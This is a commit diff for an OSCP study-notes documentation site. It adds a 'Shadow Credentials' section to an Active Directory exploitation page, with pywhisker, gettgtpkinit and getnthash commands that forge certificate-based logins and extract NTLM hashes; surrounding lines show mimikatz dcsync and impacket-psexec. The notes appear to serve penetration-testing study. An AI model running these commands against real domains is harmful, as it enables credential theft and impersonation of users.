

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/19_ad_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 4843 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 5866 px from its top, so only the background shows below that.

Commit message:
Add shadowcredentials

````diff
--- a/docs/19_ad_exploitation.md
+++ b/docs/19_ad_exploitation.md
@@ -220,7 +220,7 @@ lsadump::dcsync /user:<domain\user>
 .\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
 ```
 
-## RBCD
+## RBCD (Resource-Based Constrained Delegation)
 
 A **Resource-Based Constrained Delegation** allows an attacker with write access to a computer object's delegation attribute to impersonate any user on that computer, enabling privilege escalation or lateral movement.
 
@@ -246,6 +246,31 @@ export KRB5CCNAME=administrator@cifs_<computer>.<domain>@<DOMAIN>.ccache
 impacket-psexec -k <computer>.<domain>
 ```
 
+## Shadow Credentials
+
+Shadow credentials abuse involves adding a malicious certificate to a user or computer object, allowing attackers to authenticate as that principal using PKINIT (Kerberos certificate authentication).
+
+**Requirements:**
+
+- The Domain Controller must have a server authentication digital certificate installed.
+- Write access to `msDS-KeyCredentialLink` attribute on the target object.
+
+> <https://github.com/ShutdownRepo/pyWhisker>
+
+```shell
+# Add a shadow credential to the target user/computer
+python pywhisker.py --action add -d <domain> -u <user> -p <pass> --target <target_user> --filename <cert_name>
+
+# Request a TGT using the shadow credential
+python gettgtpkinit.py -cert-pfx <cert_name.pfx> -pfx-pass <pass> <domain>/<user> <user>.ccache
+
+# Export the ticket for use with other tools
+export KRB5CCNAME=<ticket>.ccache
+
+# Get users's NTLM hash
+python getnthash.py -key <key> <domain>/<user>
+```
+
 ## CVEs and Exploits
 
 - [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
````
Also changed, not shown: docs/20_ad_lateral_mov.md (+1 -2 lines).
